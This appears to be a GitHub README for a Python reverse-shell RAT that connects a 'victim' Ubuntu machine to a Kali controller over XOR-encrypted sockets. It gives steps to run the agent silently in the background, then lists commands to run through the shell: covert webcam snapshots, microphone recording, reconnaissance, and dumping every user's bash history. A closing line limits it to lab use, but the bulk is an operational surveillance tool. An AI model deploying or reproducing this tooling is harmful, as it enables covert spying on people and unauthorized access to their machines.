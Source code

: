 # 🐍 Reverse Shell RAT with XOR Encryption

## 📘 Learning Path

This project started as a basic Python shell and evolved into a stealthy, encrypted reverse shell:

1. 🛠️ **Basic Shell**: Socket + subprocess commands
2. 🔁 **Hybrid (Bind + Reverse)**
3. 🔄 **Reverse-Only Shell** (more stealthy)
4. 🔐 **XOR Encryption**
5. 🧾 **Session Logging**
6. 👻 **Background Execution + Persistence**
7. 🔭 **Cool Shell Command Extensions**

---

## 🎯 Overview

This tool enables remote shell access from a victim Ubuntu machine to a Kali controller using encrypted reverse sockets.

---

## ⚙️ Features

- Reverse TCP shell
- XOR-encrypted traffic
- Command execution with shell output
- Screenshot support
- Timestamped logging
- Runs silently in background
- No external Python packages

---

## 🚀 How to Use

### Kali (Attacker)

```bash
python3 listener.py
```

### Ubuntu (Victim)

Edit agent file:

```python
REVERSE_HOST = "192.168.56.10"  # ← change to Kali IP
```

Then run it in the background:

```bash
nohup python3 agent_reverse.py &>/dev/null &
```

---

## 🎮 Cool Shell Commands to Run

### 📷 Webcam Snapshot

```bash
fswebcam -r 640x480 --jpeg 85 -D 1 /tmp/webcam.jpg && cat /tmp/webcam.jpg
```

**Install:**
```bash
sudo apt install fswebcam
```

---

### 🎤 Microphone Audio (10 sec)

```bash
arecord -f cd -d 10 /tmp/audio.wav && cat /tmp/audio.wav
```

**Install:**
```bash
sudo apt install alsa-utils
```

---

### 🧠 Recon Combo

```bash
whoami && hostname && uname -a && ip a && ps aux
```

Get full snapshot of identity, system info, IP, and processes.

---

### 📁 List Bash History

```bash
find /home -name .bash_history -exec cat {} \;
```

---

## ⚠️ Ethical Use Only

This tool is for lab use only. Do not use it on any system without explicit permission.

---
